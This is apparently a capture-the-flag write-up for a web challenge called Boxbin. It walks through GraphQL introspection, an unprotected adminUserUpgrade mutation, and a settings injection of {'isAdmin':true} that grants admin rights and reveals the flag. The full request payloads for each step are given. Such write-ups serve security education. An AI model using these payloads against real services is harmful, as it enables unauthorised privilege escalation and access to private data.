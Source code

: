 # [Web] Boxbin
**Final Solves**: 41

![CTF Challenge](../imgs/boxbin.jpg)

---

## Solution

When launching the challenge, I was greeted by a Next.js website. One thing that immediately stood out was the use of **GraphQL as the backend**. <br/>
The natural first step was to perform an **introspection query**, which allowed me to explore the schema and see what queries and mutations were available.

```json
{
  "operationName": "IntrospectionQuery",
  "variables": {},
  "query": "query IntrospectionQuery {\n  __schema {\n    queryType {\n      name\n    }\n    mutationType {\n      name\n    }\n    subscriptionType {\n      name\n    }\n    types {\n      ...FullType\n    }\n    directives {\n      name\n      description\n      locations\n      args {\n        ...InputValue\n      }\n    }\n  }\n}\n\nfragment FullType on __Type {\n  kind\n  name\n  description\n  fields(includeDeprecated: true) {\n    name\n    description\n    args {\n      ...InputValue\n    }\n    type {\n      ...TypeRef\n    }\n    isDeprecated\n    deprecationReason\n  }\n  inputFields {\n    ...InputValue\n  }\n  interfaces {\n    ...TypeRef\n  }\n  enumValues(includeDeprecated: true) {\n    name\n    description\n    isDeprecated\n    deprecationReason\n  }\n  possibleTypes {\n    ...TypeRef\n  }\n}\n\nfragment InputValue on __InputValue {\n  name\n  description\n  type {\n    ...TypeRef\n  }\n  defaultValue\n}\n\nfragment TypeRef on __Type {\n  kind\n  name\n  ofType {\n    kind\n    name\n    ofType {\n      kind\n      name\n      ofType {\n        kind\n        name\n        ofType {\n          kind\n          name\n          ofType {\n            kind\n            name\n            ofType {\n              kind\n              name\n            }\n          }\n        }\n      }\n    }\n  }\n}"
}
```

After some trial and error, I discovered a critical flaw: any registered user could upgrade themselves: The function `adminUserUpgrade(!ID)` **didn't properly enforce permissions**. By providing an ID between 1-8, I could assign myself **any available VIP status**.

```json
{
  "operationName": "AdminUserUpgrade",
  "variables": {
    "upgradeId": 1
  },
  "query": "mutation AdminUserUpgrade($upgradeId: ID!) {\n  adminUserUpgrade(upgradeId: $upgradeId) {\n    id\n    username\n    isAdmin\n    upgrades {\n      id\n      name\n      description\n    }\n    __typename\n  }\n}"
}
```

Finally I had my VIB (Very Important Box) Status! <br/>
With the newly acquired permissions, I was able to access the "**Settings**" tab in my profile.

![CTF Challenge](../imgs/boxbin_settings.jpg)

Once I had access to the Settings tab, two new options appeared: **"Bio"** and **"Posts Per Page"**. At first glance, they seemed harmless, but this page turned out to be the key to solving the challenge. <br/>

Under the hood, the "Posts per Page" triggered a request to the **UpdateSettings** GraphQL mutation, passing a JSON payload as the settings parameter. Curious, I tried sending the following payload to set myself as admin:

```json
{
  "operationName":"UpdateSettings",
  "variables":{"settings":"{\"isAdmin\":true}"},
  "query":"mutation UpdateSettings($settings: String!) { updateSettings(settings: $settings) }"
}
```

And it **worked**. With this, I could now access everyone's hidden posts, unlocking the flag!

![CTF Challenge](../imgs/boxbin_finale.jpg)

`snakeCTF{y0ur3_0n_b0xb1n_n0w_8064c38750245b23}`
